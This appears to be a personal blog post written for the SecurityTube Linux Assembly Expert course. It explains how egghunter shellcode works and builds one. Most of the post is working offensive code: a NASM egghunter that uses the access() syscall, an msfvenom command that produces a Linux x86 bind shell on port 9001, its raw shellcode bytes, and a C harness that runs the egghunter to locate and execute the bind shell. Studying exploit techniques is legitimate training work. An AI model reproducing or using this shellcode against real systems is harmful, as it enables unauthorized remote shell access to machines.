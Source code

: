 ```yaml
---
title: SLAE32 - Assignment#3 [Egghunter]
author: bigb0ss
date: 2020-12-26 23:53:00 +0800
categories: [SLAE32, Assignment_3_Egghunter]
tags: [slae32, assembly, x86, Egghunter]
image: /assets/img/post/slae32/slae32.png
---
```


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#3 Github](https://github.com/bigb0sss/SLAE32)

# Assignement #3 
* Study about the Egg Hunter shellcode
* Create a working demo of the Egghunter
* Should be configurable for different payloads

# What is Egghunter?
Personally, I have dealt with Egghunter when I was studying for the [OSCE course](https://www.offensive-security.com/offsec/retiring-ctp-intro-new-courses/) form Offensive Security. Egghunter is essentially a staged payload and is comprised with relatively short shellcode (around 32 bytes). In a situation where the first buffer space is limited, we can implement the Egghunter shellcode there, and this will search the process memory for the much bigger buffer space where we place the signature (aka "Egg") with our final reverse/bing shellcode.

The below image is a simplified version of how Egghunter works: 

![image](/assets/img/post/slae32/assignment3/01.png)

# Egghunter In Depth

![image](/assets/img/post/slae32/assignment3/02.png)

Even though I knew what Egghunter was and how to use it, I wanted to understand it in greater detail. So I read Matt Miller's [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) to learn more about Egghunter. 

The following is the key take- aways from the article:

* Per the author, 8 byte egg is recommended since it can give enough uniquness that it can eaily selected without running any high risk of a collision. 

## Linux Egghunter Implementation

* In Linux implementation, there are two main methods: 
    * 1) SIGSEGV handler to catch invalid memory address dereferences and prevent the program from crashing
    * 2) Using OS system call interface to validate process VMAs in kernel mode. 

* In Linux implementation, the SIGSEGV handler technique has a big drawback of a size issue. 

* In Linux implementation, the fact that the system call will return the `EFAULT` error code when it encounters an invalid memory space is the exact type of information needed for Egghunter since it can traverse the process' VAS without crashing the program. 

| Techniques (Linux) | Size | Executable Egg | Pros | Cons |
|:- |:- |:- |:- |
| access | 39 bytes | Yes | Very robust | Bigger size, Eggs should be executable, limiting the range of unique eggs |
| access (Improved) | 35 bytes | No | Very robust, non-executable eggs | Still a bit bigger size, Fails if Direction Flag (DF) is set | 
| sigaction | 30 bytes | No | Faster and smaller size | In certain scenarios, it may be not robust, Fails if Direction Flag (DF) is set |

## Windows Egghunter Implementation

* In Windows implementation, there are also two main methods:
    * 1) SEH (Structure Exception Handler)
    * 2) OS System call (IsBadReadPtr & NtDisplayString)

| Techniques (Windows) | Size | Executable Egg | Pros | Cons |
|:- |:- |:- |:- |
| SEH | 60 bytes | No | Can run on any Windows version, Can search eggs bigger than 8 bytes | Bigger size, Fails if Direction Flag (DF) is set |
| IsBadReadPtr | 37 bytes | No | Robust (API-based approach) | Use of a static VMA, Potential race condition, Fails if Direction Flag (DF) is set |
| NtDisplayString | 32 bytes | No | Smallest, Fastest, Most robust | Static system call number, Fails if Direction Flag (DF) is set |

# Egghunter Shellcode
For demonstration purposes, I will be using the Linux implementation of `access()` syscall version to build the Egghunter payload. Let's create the following `egghunter.nasm` file:

```s
global _start

section .text

_start:
        mov ebx, 0x50905090     ; 4 byte Egg (*Little-Endian)
        xor ecx, ecx            ; Zero out ECX
        mul ecx                 ; Zero out EAX and EDX

next_page:
        or dx, 0xfff            ; Set PAGE_SIZE 4095 (0x1000)

next_addr:
        inc edx                 ; Increment by 4095 (0x1000)
        pushad                  ; Preserve all general purposes register values onto the stack
        lea ebx, [edx+4]        ; Checking if the address is readable
        mov al, 0x21            ; Set AL to syscall access() (0x21)
        int 0x80                ; Soft-interrupt to execute the syscall

        cmp al, 0xf2            ; Check for EFAULT (Invalid memory space)
        popad                   ; Restore the preserved registers
        jz next_page            ; EFAULT --> Invalid memory space --> Next page

        cmp [edx], ebx          ; Check for the address if it contains our egg
        jnz next_addr           ; If not, go back to look for our first egg 

        cmp [edx+4], ebx        ; Check for the address + 4 if it contains our second egg 
        jnz next_addr           ; If not, go back to look for our second egg

        jmp edx                 ; Both eggs are found --> JMP to EDX --> Continue execution flow
```

## Compile + Bind Shellcode (msfvenom)

I created a simple compiler [compilerX86.py](https://github.com/bigb0sss/ASM_Learning/blob/master/compilerX86.py). 

```console
root@kali:~/Documents/SLAE32/Exam/Assignement3# python compilerX86.py -f egghunter
 
  ________  ________  _____ ______   ________  ___  ___       _______   ________     ___    ___ ________  ________         
 |\   ____\|\   __  \|\   _ \  _   \|\   __  \|\  \|\  \     |\  ___ \ |\   __  \   |\  \  /  /|\   __  \|\   ____\        
 \ \  \___|\ \  \|\  \ \  \\\__\ \  \ \  \|\  \ \  \ \  \    \ \   __/|\ \  \|\  \  \ \  \/  / | \  \|\  \ \  \___|      
  \ \  \    \ \  \\\  \ \  \\|__| \  \ \   ____\ \  \ \  \    \ \  \_|/_\ \   _  _\  \ \    / / \ \   __  \ \  \____   
   \ \  \____\ \  \\\  \ \  \    \ \  \ \  \___|\ \  \ \  \____\ \  \_|\ \ \  \\  \|  /     \/   \ \  \|\  \ \  ___  \ 
    \ \_______\ \_______\ \__\    \ \__\ \__\    \ \__\ \_______\ \_______\ \__\\ _\ /  /\   \    \ \_______\ \_______\ 
     \|_______|\|_______|\|__|     \|__|\|__|     \|__|\|_______|\|_______|\|__|\|__/__/ /\ __\    \|_______|\|_______|    
                                                                                    |__|/ \|__|     [bigb0ss] v1.0         

[+] Assemble: egghunter.nasm
[+] Linking: egghunter.o
[+] Shellcode: "\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2"
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!
```

Additionally, using msfvenom, let's create a bind shell:

```console
root@kali:~/Documents/SLAE32/Exam/Assignement3# msfvenom -p linux/x86/shell_bind_tcp lport=9001 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x23\x29\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```

## Final Touch

Finally, let's combine those bind shellcode and egghunter to create the following exploit script `egghunter.c`:

```c
#include <stdio.h>

unsigned char egghunter[] = \
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42"
"\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a"
"\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";

unsigned char shellcode[] = \
"\x90\x50\x90\x50\x90\x50\x90\x50"  // Egg
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x23\x29\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";

void main() {
    int (*ret)() = (int(*)())egghunter;
    ret();

    return 0;
}
```

![image](/assets/img/post/slae32/assignment3/03.png)


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#3 Github](https://github.com/bigb0sss/SLAE32)